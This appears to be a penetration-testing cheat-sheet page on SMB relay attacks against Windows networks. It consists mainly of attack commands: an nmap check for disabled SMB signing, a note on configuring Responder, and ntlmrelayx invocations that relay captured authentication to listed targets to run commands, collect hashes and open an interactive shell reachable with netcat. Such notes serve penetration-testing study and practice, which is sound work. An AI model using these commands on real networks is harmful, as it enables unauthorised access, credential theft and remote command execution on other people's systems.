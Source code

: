 ```yaml
---
description: SMB SIGNING MUST BE OFF AND THE TARGET SHOULD BE A LOCAL/ADMIN
---
```


# SMB Relay Attacks(needs an event)

To check if target's SMB signing is OFF

```
nmap --script=smb2-security-mode.nse -p445 <ip>
```

First Change Responder Configuration( etc/responder/Responder.conf)

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Now the attack

```
impacket-ntlmrelayx
```

OR USE THIS OLD BUT NOT AS BROKEN

```
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

COLLECT THE HASHES (IF THE EVENT OCCURS WE GET A HASH)

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

for interactive mode

in the output if we see that we got a shell with an port number;USe netcat to connect to it using that port.

